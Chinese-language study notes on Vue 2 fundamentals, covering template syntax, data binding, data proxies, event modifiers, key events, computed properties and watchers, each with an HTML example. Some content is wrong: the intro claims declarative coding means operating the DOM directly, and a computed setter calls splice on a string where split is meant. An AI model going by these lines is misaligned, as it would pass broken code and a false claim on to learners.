










## Vue简介

Vue.js 是一个用于构建用户界面的渐进式 JavaScript 框架。

- 采用**组件化**模式，提高代码复用率，且让代码更好的维护。
- **声明式**编码，让编程人员直接操作DOM,提高开发效率。

**声明式编码的特点**

1. **关注结果**：声明式编程更关注结果而非过程。开发者定义期望的输出，框架或库负责实现细节。
2. **高层次抽象**：声明式代码通常比命令式代码更简洁和易读，因为它省略了许多低层次的实现细节。
3. **可维护性强**：由于高层次的抽象，声明式代码更易于理解和维护。

**声明式编码的例子**

**1. HTML**

HTML 是声明式编程的一个典型例子。你定义页面元素及其属性，而不需要描述如何绘制这些元素。

```
<div id="app">
  <p>{{ message }}</p>
</div>
```

在这个例子中，你声明了一个包含文本的 `<p>` 元素，而不需要详细描述如何在页面上绘制这个文本。

**声明式 vs 命令式**

**命令式编码示例**

```
let numbers = [1, 2, 3, 4, 5];
let doubled = [];
for (let i = 0; i < numbers.length; i++) {
  doubled.push(numbers[i] * 2);
}
```

在命令式编码中，你详细描述了如何通过遍历数组来创建一个新的数组。

**声明式编码示例**

```
let numbers = [1, 2, 3, 4, 5];
let doubled = numbers.map(n => n * 2);
```

在声明式编码中，你使用 `map` 函数声明了你想要将每个数字乘以 2 而不需要描述遍历数组的具体步骤。

**结论**

声明式编码的优势在于简化代码、提高可读性和维护性，使得开发者可以专注于描述问题的本质而不是解决问题的具体步骤。在现代前端开发中，诸如 Vue.js、React 等框架广泛使用声明式编码范式来简化 UI 开发。

## Vue基础

### Vue开发环境搭建

官网地址： https://cn.vuejs.org/


开发工具


**解决**Download the Vue Devtools extension for a better development experience:
https://github.com/vuejs/vue-devtools

直接点击链接

或者

https://v2.cn.vuejs.org/v2/guide/installation.html


**解决**You are running Vue in development mode.
Make sure to turn on production mode when deploying for production.
See more tips at https://vuejs.org/guide/deployment.html


```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>认识Vue</title>
    <script type="text/javascript"  src="../js/vue.js"></script>
</head>
<body>
<script  type="text/javascript" >
    Vue.config.productionTip = false // 设置为 false 以阻止 vue 在启动时生成生产提示。
</script>
</body>
</html>
```

初识Vue
1.加让Vue工作，就必须倒建一个Vue实例，且要传入一个配置对象
2.app容器型的代码依然符合htm1规范。只不过混入了一些特的Vue比法
3.app容器型的代码被称为【Vue模板】

### Hello小案例

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Hello word</title>
    <!-- 开发环境版本，包含了有帮助的命令行警告 -->
<!--    <script src="https://cdn.jsdelivr.net/npm/vue@2/dist/vue.js"></script>-->
    <!-- 生产环境版本，优化了尺寸和速度 -->
<!--    <script src="https://cdn.jsdelivr.net/npm/vue@2"></script>-->
    <script type="text/javascript"  src="../js/vue.js"></script>
</head>
<body>
<div id="app">
   {{name}}
</div>
<script  type="text/javascript" >
    /*数据对象*/
    var data = {
        name:'Hello Vue'
    }
    /*创建一个Vue实例*/
    const vm = new Vue({
        el: '#app',
        data: data
    })
</script>
</body>
</html>
```

### 模板语法

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>模板语法</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <h1>插值语法</h1>
    <h3>你好，{{name}}</h3>
    <hr/>
    <h1>指令语法</h1>
    <a v-bind:href="school.url.toUpperCase()">点我去{{school.name}}学习1</a>
    <a :href="school.url">点我去{{school.name}}学习2</a>
</div>

</body>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
    new Vue({
        el: '#root',
        data: {
            name: 'jack',
            school: {
                name: 'zhuzq',
                url: 'http://www.zhuzq.com'
            }
        }
    });
</script>
</html>
```

Vue模板语法有2大类:
**插值语法:**
功能:用于解析标签体内容。
写法:{{xxx}}，xxx是js表达式，且可以直接读取data中的所有属性。
**指令语法:**
功能:用于解析标签(包括:标签属性、标签体内容、绑定事件.....) 。  
 举例:v-bind:href="xxx”或 简写为 :href="xxx"，xxx同样要写js表达式，
且可以直接读取到data中的所有属性。
各注:Vue中有很多的指令，且形式都是:v-????，此处只是拿v-bind举个例子。

### 数据绑定

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>数据绑定</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    单向数据绑定：<input type="text" v-bind:value="name"><br/><br/>
    双休数据绑定：<input type="text" v-model:value="name">

<!--    如下代码是错误的，因为v-model只能应用在表单类元素(输入类元素)-->
  <!--  <h2 v-bind:x="name">你好啊</h2>-->
</div>

</body>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
    new Vue({
        el: '#root',
        data: {
            name: 'jack',
        }
    });
</script>
</html>
```

Vue中有2种数据绑定的方式:
**单向绑定(v-bind)**:数据只能从data流向页面。

**双向绑定(v-model)**:数据不仅能从data流向页面，还可以从页面流向data。

备注:
双向绑定一般都应用在表单类元素上(如:input、select等)

v-model:value 可以简写为 v-model，因为v-model默认收集的就是value值。

### data与el的2种写法

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>el与Data两种写法</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <h1>{{name}}</h1>
</div>

</body>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
    // const  vm = new Vue({
    //     // el: '#root',  // 第一种写法
    //
    //     // data 第一种写法 ：对象式
    //     data: {
    //         name: 'jack',
    //     }
    // });
    //
    // console.log(vm);
    // vm.$mount("#root")  // 第二种写法


    new Vue({
        el: '#root',
         //  data第二种写法：函数式
        data: function(){
            console.log('@@',this) // this对象是Vue实例对象
            return{
                name:'jack'
            }
        }
    });


</script>
</html>
```

el有2种写法

- new Vue时候配置e1属性。
- 先创建Vue实例，随后再通过vm.$mount('#root')指定e1的值。

data有2种写法

- 对象式
- 函数式

如何选择:目前哪种写法都可以，以后学习到组件时，data必须使用函数式，否则会报错。

一个重要的原则:
由Vue管理的函数，一定不要写箭头函数，一旦写了箭头函数，this就不再是Vue实例了

### MVVM模型

M：模型（Model）对应data中的数据

V：视图（View）模板

VM：视图模型（ViewModel）Vue实例对象


data中所有的属性，最后都出现在了vm身上。
vm身上所有的属性 及 Vue原型上所有属性，在Vue模板中都可以直接使用。

### Object.defineProperty

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Object中defineProperty</title>
</head>
<body>
</body>
<script type="text/javascript">

    let number = 20
    let person = {
        name:'张三',
        sex : '男'
    }

    Object.defineProperty(person,'age',{
        // value:18,
        // enumerable:true,//控制属性是否可以枚举，默认值是false
        // writable:true,// 控制属性是否被修改，默认值是false
        // configurable:true,// 控制属性是否被删除，默认值是false
        // 当有人读取person的age属性时，get函数就会被调用，且返回值就是age的值
        get(){
            console.log('有人读取age属性了')
            return number;
        },
        set(value){
            console.log('有人修改了age属性了，且值是',value)
            number = value
        }
    })
    console.log(person)


</script>
</html>
```


### 数据代理理解

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>数据代理</title>
</head>
<body>
</body>

<!--数据代理：通过一个对象代理对另外一个对象中的属性操作（读/写）-->
<script type="text/javascript">

    let obj1 = {x:100}
    let obj2 = {y:200}

    Object.defineProperty(obj2,'x',{
        get(){
            return obj1.x;
        },
        set(value){
            obj1.x = value
        }
    })


</script>
</html>
```


### Vue中的数据代理

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Vue中的数据代理</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <h1>学校名称：{{name}}</h1>
    <h2>学校地址：{{address}}</h2>
</div>

</body>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
    let data = {
        name:'湖南大学',
        address:'湖南长沙市'
    }
    const vm = new Vue({
        el: '#root',
        data: data
    });


</script>
</html>
```


**Vue中的数据代理:**
通过vm对象来代理data对象中属性的操作(读/写)

**Vue中数据代理的好处:**
更加方便的操作data中的数据
**基本原理:**
通过object.defineProperty()把data对象中所有属性添加到vm上。
为每一个添加到vm上的属性，都指定一个getter/setter。
在getter/setter内部去操作(读/号)data中对应的属性。

### 事件处理

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>事件处理</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <h1>欢迎来到：{{name}} 学习</h1>
    <button v-on:click="showInfo" >点我提示信息</button><br/><br/>
    <button v-on:click="showInfo1($event,66)" >点我提示信息1</button><br/><br/>
    <button @click="showInfo" >点我提示信息2</button>
</div>

</body>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    const vm = new Vue({
        el: '#root',
        data: {
            name:'http://www.zhuzq.com'
        },
        methods:{
            showInfo(event){
                console.log(event.target.innerText)
                console.log(this)
            },
            showInfo1(event,number){
                console.log(number)
            }
        }
    });


</script>
</html>
```

事件的基本使用:

- 使用v-on:xxx或@x绑定事件，其中xxx是事件名:
- 事件的回调需要配置在methods对象中，最终会在vm上;
- methods中配置的函数，不要用箭头函数!否则this就不是vm了;
- methods中配置的函数，都是被Vue所管理的函数，this的指向是vm 或 组件实例对象;
- @click="demo"和 @click="demo($event)”效果一致，但后者可以传参;

### 事件修饰符

Vue中的事件修饰符:

- prevent:阳止默认事件(常用);
- stop:阳止事件冒泡(常用);
- once:事件只触发一次(常用);
- capture:使用事件的捕获模式:
- self:只有event.target是当前操作的元素是才触发事件:
- passive:事件的默认行为立即执行，无需等待事件回调执行完毕:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>事件修饰符</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>

<body>
<style type="text/css">
    .demo{
        background-color: aquamarine;
        padding: 20px;
    }

    .box1{
        background-color: oldlace;
        padding: 20px;
    }

    .box2{
        background-color: orchid;
        padding: 20px;
    }

    .list{
        background-color: bisque;
        width: 200px;
        height: 200px;
        overflow: auto;
    }

    li{
        height: 100px;
    }

</style>


<div id="root">

       <!-- Vue中的事件修饰符:
        1.prevent:阳止默认事件(常用);
        2.stop:阳止事件冒泡(常用);
        3.once:事件只触发一次(常用);
        4.capture:使用事件的捕获模式:
        5.self:只有event.target是当前操作的元素是才触发事件:
        6.passive:事件的默认行为立即执行，无需等待事件回调执行完毕:-->

    <!--prevent-->
    <a href="http://www.baidu.com" @click.prevent="showInfo" >prevent事件修饰符</a><br/><br/>

    <!--stop-->
    <div class="demo" @click="showInfo">
        <button @click.stop="showInfo" >stop事件修饰符</button><br/><br/>
    </div>

    <!--once-->
    <button @click.once="showInfo" >once事件修饰符</button><br/><br/>


    <!--capture  冒泡由里向外  2 1  -->
    <div class="box1" @click="showMsg(1)">
        div1
        <div class="box2" @click="showMsg(2)"></div>
        div2
    </div>


    <!--self-->
    <div class="demo"  @click.self="selfMethod">
        <button @click="selfMethod" >selfMethod事件修饰符</button><br/><br/>
    </div>

  <!--  <ul @scroll.passive="scrollMethod" class="list">-->
    <ul @wheel.passive="scrollMethod" class="list">
        <li>1</li>
        <li>2</li>
        <li>3</li>
        <li>4</li>
        <li>5</li>

    </ul>


</div>

</body>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    const vm = new Vue({
        el: '#root',
        data: {
            name:'http://www.zhuzq.com'
        },
        methods:{
            showInfo(event){
                alert('你好！')
            },
            showMsg(value){
                console.log(value)
            },
            selfMethod(e){
                console.log(e.target)
            },
            scrollMethod(){
                for(let i=0;i<10000; i++){
                    console.log('@')
                }
                console.log('加载完毕')
            }
        }
    });


</script>
</html>
```

### 键盘事件

Vue中常用的按键别名:

- 回车=>enter
- 删除 => delete(捕荻“删除”和“退格”键)
- 退出 =>esc
- 空格 =>space
- 换行 => tab
- 上=> up
- 下 => down
- 左 =>left
- 右=>right


vue未提供别名的按键，可以使用按键原始的key值去绑定，但注意要转为kebab-case(短横线命名)

系统修饰键(用法特殊):ctrl、alt、shift、meta

配合keyup使用:按下修饰健的同时，再按下其他键，随后释放其他键，事件才被触发。

- 配合keydown使用:正常触发事件。
- 也可以使用keycode去指定具体的按键(不推荐)

Vue.config.keycodes.自定义键名 =键码，可以去定制按键别名

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>键盘事件</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>

<body>


   <!-- Vue中常用的按键别名:

    - 回车=>enter
    - 删除 => delete(捕荻“删除”和“退格”键)
    - 退出 =>esc
    - 空格 =>space
    - 换行 => tab
    - 上=> up
    - 下 => down
    - 左 =>left
    - 右=>right


    vue未提供别名的按键，可以使用按键原始的key值去绑定，但注意要转为kebab-case(短横线命名)

    系统修饰键(用法特殊):ctrl、alt、shift、meta

    配合keyup使用:按下修饰健的同时，再按下其他键，随后释放其他键，事件才被触发。

    - 配合keydown使用:正常触发事件。
    - 也可以使用keycode去指定具体的按键(不推荐)

    Vue.config.keycodes.自定义键名 =键码，可以去定制按键别名-->


    <div id="root">
        <h1>欢迎来到：{{name}} 学习</h1>
        <input type="text" placeholder="按下回车提示输入" @keyup.enter="showInfo"><br/><br/>
        <input type="text" placeholder="按下回车提示输入" @keyup.caps-lock="showInfo"><br/><br/>
        <input type="text" placeholder="按下回车提示输入" @keydown.ctrl="showInfo"><br/><br/>
        <input type="text" placeholder="按下回车提示输入" @keydown.huiche="showInfo"><br/><br/>
    </div>

</body>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    Vue.config.keyCodes.huiche = 13  // 定义一个别名按键

    const vm = new Vue({
        el: '#root',
        data: {
            name:'http://www.zhuzq.com'
        },
        methods:{
            showInfo(e){
             // if(e.keyCode != 13){
             //    return;
             // }

                console.log(e.keyCode)
                // console.log(e.target.value)
            }
        }

    });


</script>
</html>
```

### 计算属性

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>计算属性——姓名案例</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>

<body>

    <div id="root">
        姓：<input type="text" v-model="firstName"><br/><br/>
        名：<input type="text" v-model="lastName"><br/><br/>
        姓名：<span>{{fullName()}}</span><br/><br/>

        姓名：<span>{{fullNameByComputed}}</span>

    </div>
</body>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。


    const vm = new Vue({
        el: '#root',
        data: {
            firstName:'张',
            lastName:'三'
        },
        methods:{
            fullName(){
                return this.firstName+'-'+this.lastName
            }
        },
        computed:{
            fullNameByComputed:{
                get(){
                    console.log('get被调用了')
                    return this.firstName+'-'+this.lastName
                },
                set(value){
                    debugger
                    console.log('set',value)
                    let  arr = value.splice("-");
                    this.firstName = arr[0]
                    this.lastName = arr[1]
                }
            }
        }
    });


</script>
</html>
```

### 计算属性-简写

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>计算属性简写——姓名案例</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>

<body>

    <div id="root">
        姓：<input type="text" v-model="firstName"><br/><br/>
        名：<input type="text" v-model="lastName"><br/><br/>
        姓名：<span>{{fullName}}</span><br/><br/>


    </div>
</body>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。


    const vm = new Vue({
        el: '#root',
        data: {
            firstName:'张',
            lastName:'三'
        },

        computed:{
            fullName(){
                console.log('get被调用了')
                return this.firstName+'-'+this.lastName
            }
        }
    });


</script>
</html>
```

### 天气案例

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>天气案例</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>

<body>

    <div id="root">
        <h2>今天天气很{{info}}</h2>
        <button @click="changeWeather">切换天气</button>

    </div>
</body>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。


    const vm = new Vue({
        el: '#root',
        data: {
            isHot:true,
        },
        computed:{
            info(){
               return this.isHot ? '炎热' :'凉爽'
            }
        },
        methods:{
            changeWeather(){
                this.isHot =  !this.isHot
            }
        }
    });


</script>
</html>
```

### 监视属性

监视屈性watch:
当被监视的属性变化时，回调函数自动调用，进行相关操作

监视的属性必须存在，才能进行监视!!

监视的两种写法:
new Vue时传入watch配置
通过vm.$watch监视

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>监视属性</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>

<body>

    <div id="root">
        <h2>今天天气很{{info}}</h2>
        <button @click="changeWeather">切换天气</button>

    </div>
</body>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。


    const vm = new Vue({
        el: '#root',
        data: {
            isHot:true,
        },
        computed:{
            info(){
               return this.isHot ? '炎热' :'凉爽'
            }
        },
        methods:{
            changeWeather(){
                this.isHot =  !this.isHot
            }
        },
        // watch:{
        //     isHot:{
        //         immediate:true,// 初始化的时候调用一下handler
        //         handler(newValue,oldValue){
        //             // 当isHost发送改变时候调用一下
        //             console.log('isHost修改了',newValue,oldValue)
        //         }
        //     }
        // }
    });

    vm.$watch('isHot',{
                immediate:true,// 初始化的时候调用一下handler
                handler(newValue,oldValue){
                    // 当isHost发送改变时候调用一下
                    console.log('isHost修改了',newValue,oldValue)
                }
    });


</script>
</html>
```

### 深度监视

深度监视:
Vue中的watch默认不监测对象内部值的改变(一层)

配置deep;true可以监测对象内部值改变(多层)。
备注:

- Vue自身可以监测对象内部值的改变，但Vue提供的watch默认不可以!
- 使用watch时根据数据的具体结构，决定是否采用深度监视。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>深度监视</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>

<body>

    <div id="root">
        <h2>今天天气很{{info}}</h2>
        <button @click="changeWeather">切换天气</button><br/><br/>
        <button @click="person.age++">让我age++</button><br/><br/>
        <button @click="person.score++">让我score++</button>

        <h2>age:{{person.age}}</h2>
        <h2>score:{{person.score}}</h2>
    </div>
</body>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。


    const vm = new Vue({
        el: '#root',
        data: {
            isHot:true,
            person:{
                age:18,
                score:98
            }
        },
        computed:{
            info(){
               return this.isHot ? '炎热' :'凉爽'
            }
        },
        methods:{
            changeWeather(){
                this.isHot =  !this.isHot
            }
        },
      /*  watch:{
            'person.age':{
                // 监视多级结构中的某个属性
                immediate:true,// 初始化的时候调用一下handler
                handler(newValue,oldValue){
                    // 当isHost发送改变时候调用一下
                    console.log('person.age',newValue,oldValue)
                }
            }
        }*/

          watch:{
            'person':{
                deep:true,
                immediate:true,// 初始化的时候调用一下handler
                handler(newValue,oldValue){
                    // 当isHost发送改变时候调用一下
                    console.log('person',newValue,oldValue)
                }
            }
        }
    });


</script>
</html>
```

### 深度监视简写形式

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>深度监视简写形式</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>

<body>

    <div id="root">
        <h2>今天天气很{{info}}</h2>
        <button @click="changeWeather">切换天气</button><br/><br/>
    </div>
</body>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。


    const vm = new Vue({
        el: '#root',
        data: {
            isHot:true
        },
        computed:{

            // 完整写法
            // info:{
            //     get(){},
            //     sel(value){},
            // },


            // 简写
            info(){
               return this.isHot ? '炎热' :'凉爽'
            }
        },
        methods:{
            changeWeather(){
                this.isHot =  !this.isHot
            }
        },

          watch:{
              // 正常写法
              // 'isHot':{
              //     // 监视多级结构中的某个属性
              //     immediate:true,// 初始化的时候调用一下handler
              //     handler(newValue,oldValue){
              //         // 当isHost发送改变时候调用一下
              //         console.log('isHot',newValue,oldValue)
              //     }
              // }

              // 简写
              'isHot'(newValue,oldValue){
                    // 当isHost发送改变时候调用一下
                    console.log('isHot',newValue,oldValue)
                }
        }
    });


    // 正常写法
    // vm.$watch('isHot',{
    //     immediate:true,// 初始化的时候调用一下handler
    //     handler(newValue,oldValue){
    //         // 当isHost发送改变时候调用一下
    //         console.log('isHost修改了',newValue,oldValue)
    //     }
    // });


    // vm.$watch('isHot',(newValue,oldValue)=>{
    //     console.log('isHot',newValue,oldValue,this)
    // });


</script>
</html>
```

### watch与omputed比较

computed和watch之间的区别:
computed能完成的功能，watch都可以完成。
